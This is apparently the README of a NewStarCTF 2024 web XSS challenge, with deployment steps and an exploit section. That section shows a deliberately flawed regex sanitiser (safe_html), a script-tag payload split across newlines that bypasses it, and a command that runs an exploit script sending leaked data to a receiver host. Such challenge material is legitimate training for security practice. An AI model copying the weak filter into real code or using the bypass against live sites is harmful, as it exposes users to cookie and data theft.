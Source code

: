 # PangBai-XSS

This is the challenge for NewStarCTF 2024 in the category of Web, Week 5.

This challenge is a simple XSS challenge.

The function `safe_html` in [src/page.ts](src/page.ts) is provided to participants.

## Deployment

> [!NOTE]
> If the development is at ichunqiu platform, please modify [docker-compose.yml](docker-compose.yml) to change `Dockerfile` into `Dockerfile.icq` and the environment variable `FLAG` to `ICQ_FLAG`.

Docker is provided. You can run the following command to start the environment quickly:

```bash
docker compose build # Build the image
docker compose up -d # Start the container
```

For manual installation, you can follow the steps below.

Install the dependencies:

```bash
pnpm install
```

Build the frontend:

```bash
pnpm build
```

Start the server:

```bash
pnpm start
```

> [!NOTE]
> The default runtime is not [Node.js](https://nodejs.org/) but [bun.sh](https://bun.sh). Just replace `start` scripts in [package.json](package.json) to meet your preference.

## Exploit

Analyze the `safe_html` function in [src/page.ts](src/page.ts).

```typescript
function safe_html(str: string) {
    return str
        .replace(/<.*>/igm, '')
        .replace(/<\.*>/igm, '')
        .replace(/<.*>.*<\/.*>/igm, '')
}
```

It's easy to bypass the filter, because the `m` flag disables matching the newline character, it matches multiline splitly.

```html
<script
>alert(1)</script
>
```

The exploit script is provided on [exploit/exp.ts](exploit/exp.ts). Please run it with bun.

```bash
bun exp.py '172.18.0.2:8000' -r '192.168.16.10:5555' -p '5555'
# `-r` means the address which receive the XSS leaked data
# `-p` means the port of the address on local machine
# Note that the exploit script has to be run on the receiver machine.
```

For more details, please use `--help` to get more information about this exploit script.

## License

Copyright (c) Cnily03. All rights reserved.

Licensed under the [MIT](LICENSE) License.
